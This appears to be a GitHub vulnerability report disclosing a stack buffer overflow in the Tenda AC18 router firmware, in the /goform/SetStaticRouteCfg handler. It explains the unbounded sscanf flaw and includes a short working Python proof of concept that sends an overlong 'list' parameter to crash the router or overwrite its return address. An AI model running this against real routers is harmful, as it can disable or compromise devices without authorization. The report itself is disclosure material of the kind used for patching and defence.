



# Bug Report: Buffer Overflow in Tenda AC18 16.03.34.06 Router
A buffer overflow vulnerability has been identified in the Tenda AC18 router firmware that allows remote attackers to potentially execute arbitrary code or cause denial of service through malformed HTTP POST requests.

### Vulnerability Details
**Product Information** 

Product: Tenda AC18 Wireless Router

Affected Version: V16.03.34.06 

Vulnerability Type: Stack-based Buffer Overflow 


### Description:
The vulnerable code path processes HTTP POST requests to the /goform/SetStaticRouteCfg endpoint. The web server maps this route to the internal C function fromSetRouteStatic.

The vulnerability occurs when processing the list parameter. The function uses sscanf with an unbounded format string "%[^,],%[^,],%[^,],%s" to parse the input into small, fixed-size stack variables (e.g., v11, v10, v9 with 16 bytes each).

Because there are no length checks on the input data, an attacker can supply an overly long string containing at least three commas (to pass the sscanf == 4 check), which will overflow the allocated stack buffers, overwrite the saved frame pointer (EBP), and hijack the function's return address (EIP/PC).



### Poc


### Reproduce

```python
import requests

cyclic = 0x100 * b'A'
host = "192.168.0.1:80"

def exploit_fromSetRouteStatic():
    url = f"http://{host}/goform/SetStaticRouteCfg"
    payload = cyclic + b",a,b,WAN1"
    data = {
        b"list":payload
    }
    res = requests.post(url=url,data=data)
    print(res.content)


exploit_fromSetRouteStatic()
```